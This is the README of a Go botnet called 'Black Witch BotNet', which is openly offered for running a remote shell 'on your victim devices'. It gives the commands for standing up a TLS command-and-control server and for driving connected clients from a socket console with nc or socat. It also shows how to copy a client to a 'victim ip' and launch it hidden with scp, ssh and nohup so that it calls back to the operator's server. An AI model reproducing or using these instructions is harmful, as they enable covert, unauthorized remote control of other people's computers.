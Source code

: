 # Black Witch BotNet

### The blank bundle to run the shell on your victim devices
#### We are welkome to open issue

### Usage
#### Generate server certificate and key
```
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout server.key -out server.crt
```
It's good enough to use self signed sertificate

#### Run the server (cmd/server)
```
server -addr-accept :7238 -sock-control unix.sock -cert server.crt -key server.key
```
The server will open TCP and UNIX socket. TCP on 7238 port for incoming client connactions and UNIX unix.sock for control client connections.


#### Run the client (cmd/client)
```
client -recon 1 -addr localhost:7238
```
This will run the client on the victim machine. For now you have to compile binary for os and arch victim.


To view all available options use -help on the server and client


### Control
To manage connected payloads you may use nc or something that can connect to the unix sock
```
nc -U tmp/unix.sock
```
```
socat - UNIX-CONNECT:unix.sock
```

You will see REPL console

To show all connections

```
<CC:#> show
```

This will return

```
ID: 0 Address: 213.32.33.33:42656
ID: 1 Address: 213.32.33.33:53622
```

Connect to connection
```
<CC:#> use 0
```

### Communicate with client payload
#### Syntax

```
event [hello|restart]
```

```
{shell} [{exec}|cd] command
```

Where {} is default and [] options

#### Event message

```
event hello
```

It's a system event connection health

```
event restart
```

Events return status

```
Status true
```

Restart the client (CURRENTLY NOT SUPPORTED)

#### Shell commands

Simple command is

```
<213.32.33.33:42656:#> pwd
```

And this will return stdout

```
/Users
```

To change the directory

```
<213.32.33.33:42656:#> cd /Users
```

Will return new directory path

```
/Users
```

So we have shell commands and event messages for the client

Client support hello and restart events

Shell support simple exec and change directory

#### Errors

When the executable isn't found

```
exec: "ll": executable file not found in $PATH
Error code 1
```

When you run executable incorrect

```
pwd: illegal option -- -
usage: pwd [-L | -P]
Exit 1
```

Return stderr and exit code

When you change dir that isn't exist

```
chdir test: no such file or directory
Error code 2
```

The last thing is command timeouts

We have 10 seconds timeout to run the command or error will return

```
run command timeout
Error code 0
```

Error codes

```
ErrorTimeout          = 0
ErrorCommand          = 1
ErrorChangeDir        = 2
ErrorUnknownRequest   = 3
ErrorUnknownShellType = 4
ErrorUnknownEventType = 5
```

### Production
#### Config server

Create directory

```
mkdir /opt/black
```

Upload or generate server key and crt to this dir

Then upload binary

Create systemd file and copy content from [example](https://github.com/andrewostroumov/black-witch-botnet/blob/master/systemd.service):

```
touch /etc/systemd/system/black-witch.service
```

And run systemd service

```
sudo service black-witch start
```

#### Upload client

Build client for target machine os and arch

```
GOOS=linux GOARCH=amd64 go build
```

Upload client through scp

```
scp client 33.33.33.33:/var/lib/ && ssh 33.33.33.33 "nohup /var/lib/client -addr 44.44.44.44:7328 -recon 5 > /dev/null 2>&1 &"
```

Where 33.33.33.33 is a victim ip and 44.44.44.44 is a your accept server ip
